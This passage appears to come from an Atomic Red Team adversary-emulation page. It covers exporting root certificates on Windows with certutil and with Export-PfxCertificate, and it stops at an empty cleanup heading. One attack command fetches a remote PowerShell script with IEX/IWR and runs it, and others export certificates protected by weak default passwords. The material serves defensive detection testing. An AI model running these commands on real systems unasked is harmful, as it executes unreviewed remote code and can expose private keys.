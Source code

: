 | Name     | Description            | Type   | Default Value              |
| -------- | ---------------------- | ------ | -------------------------- |
| output   | file path to export to | path   | c:&#92;temp&#92;atomic.pfx |
| password | password for cert      | string | password                   |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
IEX (IWR 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1553.004/src/RemoteCertTrust.ps1' -UseBasicParsing)
certutil.exe -p #{password} -exportPFX Root 1F3D38F280635F275BE92B87CF83E40E40458400 #{output}
```

#### Cleanup Commands:

```powershell
Get-ChildItem -Path Cert:\ -Recurse | Where-Object { $_.Thumbprint -eq '1F3D38F280635F275BE92B87CF83E40E40458400' } | remove-item
```

<br/>
<br/>

## Atomic Test #12 - Export Root Certificate with Export-PFXCertificate

Creates a Root certificate and exports it with Export-PFXCertificate PowerShell Cmdlet.
Upon a successful attempt, this will write a pfx to disk and utilize the Cmdlet Export-PFXCertificate.

**Supported Platforms:** Windows

**auto_generated_guid:** 7617f689-bbd8-44bc-adcd-6f8968897848

#### Inputs:

| Name     | Description                    | Type   | Default Value                   |
| -------- | ------------------------------ | ------ | ------------------------------- |
| pfx_path | output path of the certificate | string | $env:Temp&#92;atomicredteam.pfx |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$mypwd = ConvertTo-SecureString -String "AtomicRedTeam" -Force -AsPlainText
$cert = New-SelfSignedCertificate -DnsName atomicredteam.com -CertStoreLocation cert:\LocalMachine\My
Set-Location Cert:\LocalMachine\My
Get-ChildItem -Path $cert.Thumbprint | Export-PfxCertificate -FilePath #{pfx_path} -Password $mypwd
```

#### Cleanup Commands:
